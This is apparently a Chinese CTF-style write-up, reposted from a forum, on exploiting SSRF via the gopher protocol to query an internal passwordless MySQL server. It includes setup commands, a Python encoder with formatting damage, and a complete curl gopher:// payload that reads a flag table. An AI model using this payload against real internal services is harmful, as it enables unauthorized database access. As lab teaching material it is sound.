 # gopher 攻击内网mysql

> 原文：[https://www.zhihuifly.com/t/topic/3583](https://www.zhihuifly.com/t/topic/3583)

#### gopher 攻击内网mysql

> MySQL有密码和无密码的认证方式不一样，无密码认证时直接发送TCP/IP数据包即可访问，有密码数据包中存在加盐加密。如果内网中的mysql数据库存在无密码的用户，可结合gopher协议进行攻击。

首先配置数据库，kali默认安装的为MariaDB，配置路径与mysql不同；

```
#进入mysql命令行，设置无密码：
SET PASSWORD FOR root@localhost=PASSWORD('');
#修改配置文件：
vim /etc/mysql/mariadb.conf.d/50-server.cnf，添加skip-grant-tables 
```

在kali下打开wireshark，监听`any`网卡

执行命令

```
mysql -h127.0.0.1 -uroot -p#必须指定-h，否则流量不走网卡，无法抓取
select flag from ssrf.flag;
exit; 
```

筛选出mysql数据包

![image](img/c7577d2848ef2aeb724b55fb104fd0f6.png)

跟踪TCP流，选取request请求，并显示为原始数据

![image](img/9d844b86308e0773f00929b44526b6f4.png)

编码为gopher协议格式

```
#encoding:utf-8

def result(s):

a=[s[i:i+2] for i in xrange(0,len(s),2)]#两两一组

return “curl gopher://127.0.0.1:3306/_%” + “%”.join(a) `if **name** == ‘**main**’:

import sys

s=sys.argv[1]

print result(s)` 
```

得到payload

```
curl gopher://127.0.0.1:3306/_%ae%00%00%01%85%a6%3f%20%00%00%00%01%2d%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%71%03%5f%6f%73%10%64%65%62%69%61%6e%2d%6c%69%6e%75%78%2d%67%6e%75%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%04%31%30%33%38%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%07%31%30%2e%31%2e%32%36%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%21%00%00%00%03%73%65%6c%65%63%74%20%40%40%76%65%72%73%69%6f%6e%5f%63%6f%6d%6d%65%6e%74%20%6c%69%6d%69%74%20%31%16%00%00%00%03%73%65%6c%65%63%74%2a%66%72%6f%6d%20%73%73%72%66%2e%66%6c%61%67%01%00%00%00%01 --output - > mysql.txt 
```

使用strings命令读取mysql.txt，获得输出结果

```
strings mysql.txt 
```

![image](img/04e0a08c7c60ecf8defd2129946f52fe.png)